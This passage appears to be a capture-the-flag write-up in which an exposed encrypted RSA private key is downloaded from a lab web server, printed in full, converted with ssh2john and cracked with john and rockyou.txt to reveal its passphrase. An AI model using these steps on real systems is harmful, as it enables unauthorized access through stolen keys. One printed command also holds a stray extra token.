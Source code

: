 Clicking on RSA Private Key link redirects the user to http://10.10.58.60/admin/panel/id_rsa
Right click on page then click save as to download the private key

```

![[Pasted image 20240128190558.png]]

```
└─# cat id_rsa               
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----

To convert the private key to a format that john the ripper can crack use the following command
 ssh2john id_rsa _rsa > id_rsa.hash               

To crack the hash run the following command

 john --wordlist=rockyou.txt id_rsa.hash                  
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:00 DONE (2024-01-28 19:10) 1.204g/s 87479p/s 87479c/s 87479C/s rubicon..rock14
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
